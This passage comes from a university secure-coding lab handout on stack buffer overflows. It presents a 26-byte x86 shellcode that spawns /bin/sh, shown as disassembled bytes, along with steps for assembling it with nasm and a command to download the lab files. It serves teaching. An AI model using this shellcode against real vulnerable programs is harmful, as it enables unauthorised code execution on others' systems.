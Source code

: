 </div>

We won't do it in this lab, but the assembly code above can be assembled
using [`nasm`][nasm], an assembler for the x86 CPU architecture.
`nasm` would compile the above assembly into an object file (called,
say, `sploit.o`),
and that resulting object file contains the exact sequence of bytes we
need
to insert in order to invoke `/bin/sh`. The following table is an
extract from a compiled object file produced by `nasm`,[^objdump] and
shows that just
26 bytes (hex `0x1a`) are needed -- these 26 bytes
will have the same effect as the 20KB executable compiled from
`shellcode.c`.
The leftmost column shows offsets in
hex,
the second column the exact byte values we want, and the last column
the corresponding assembly code:

[^objdump]: You can replicate this by saving the assembly code as
  a file `sploit.s`, and inserting the lines: \
  \
  `section .text`  \
  &nbsp;&nbsp;`global _start` \
  &nbsp;&nbsp;&nbsp;&nbsp;`_start:` \
  \
  at the start. Compile it with the command `nasm -f elf32 sploit.s -o
  sploit.o`, then issue the command `objdump -d sploit.o` to see the
  disassembled shellcode.


```
off   bytes                       assembly code
---------------------------------------------------
   0:    31 c0                    xor    eax,eax
   2:    50                       push   eax
   3:    68 2f 2f 73 68           push   0x68732f2f
   8:    68 2f 62 69 6e           push   0x6e69622f
   d:    89 e3                    mov    ebx,esp
   f:    50                       push   eax
  10:    53                       push   ebx
  11:    89 e1                    mov    ecx,esp
  13:    31 d2                    xor    edx,edx
  15:    31 c0                    xor    eax,eax
  17:    b0 0b                    mov    al,0xb
  19:    cd 80                    int    0x80
```

[nasm]: https://www.nasm.us

### 2.1. Invoking the shellcode

Download the file [`bufoverflow-code.zip`][lab-zip] into the VM
(you can use the command `wget https://cits3007.github.io/labs/bufoverflow-code.zip`)
and unzip it.


[gitpod]: https://gitpod.io/
[docker]: https://docs.docker.com/get-started/overview/
[canaries]: https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/
[gcc-stack-protector]: https://developers.redhat.com/articles/2022/06/02/use-compiler-flags-stack-protection-gcc-and-clang#stack_canary
[gcc-stack-man]: https://gcc.gnu.org/onlinedocs/gcc-12.2.0/gcc/Instrumentation-Options.html#Instrumentation-Options
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[man-execve]: https://man7.org/linux/man-pages/man2/execve.2.html
[teensy]: http://www.muppetlabs.com/~breadbox/software/tiny/teensy.html
[^assembly]: Also called [assembly][assembly], assembler language, assembler
[assembly]: https://en.wikipedia.org/wiki/Assembly_language
[^registers]: A small, named memory cell used by the processor.
[x86-asm-guide]: https://www.cs.virginia.edu/~evans/cs216/guides/x86.html
[lab-zip]: https://cits3007.github.io/labs/bufoverflow-code.zip
[func-ptr-decl]: https://www.cprogramming.com/tutorial/function-pointers.html#:~:text=Function%20Pointer%20Syntax
[personality]: https://man7.org/linux/man-pages/man2/personality.2.html
[man-fork]: https://man7.org/linux/man-pages/man2/fork.2.html
[man-exec]: https://man7.org/linux/man-pages/man3/exec.3.html
[register]: https://en.wikipedia.org/wiki/Processor_register
[pytute]: https://developers.google.com/edu/python/introduction
[^mem-seg]: The man page for [proc](https://linux.die.net/man/5/proc) explains
[^main_line]: A little math tells us that (*location_in_main* $-$
[gdb-conv-var]: https://sourceware.org/gdb/onlinedocs/gdb/Convenience-Vars.html
[^intptr]: Technically, it would be more appropriate to treat `$saved_eip`
[x-command]: https://visualgdb.com/gdbreference/commands/x